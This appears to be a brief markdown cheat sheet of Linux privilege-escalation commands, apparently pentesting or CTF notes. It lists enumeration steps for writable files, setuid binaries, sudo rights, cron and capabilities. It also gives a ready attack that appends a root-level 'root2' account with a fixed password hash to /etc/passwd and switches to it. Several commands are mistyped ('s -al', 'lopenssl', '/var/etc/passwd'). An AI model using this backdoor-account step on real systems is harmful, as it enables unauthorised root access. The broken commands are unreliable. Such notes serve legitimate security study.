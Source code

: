 # Linux PrivEsc
## Find interesting files
`find / -writable -type f 2>/dev/null`  #Writable files\
`find / -writable -type d 2>/dev/null` #Writable directories\
`find / -perm -u=s -type f 2>/dev/null` #Setuid executables

## Passwd file writable?
`s -al /var/etc/passwd`\
`lopenssl passwd w00t`\
`echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd`\
`su root2`

## OS information --> kernel exploit?
`hostname`\
`cat /etc/issue`\
`cat /etc/os-release`\
`uname -a`

## Envirionment variables
`env`

## Sudo privileges
`sudo -l`

## Running services
`ps -aux` (evt met watch)

## Cron
`grep "CRON"  /var/log/syslog`

## Possible overprived services/applications
`/usr/sbin/getcap -r / 2>/dev/null`

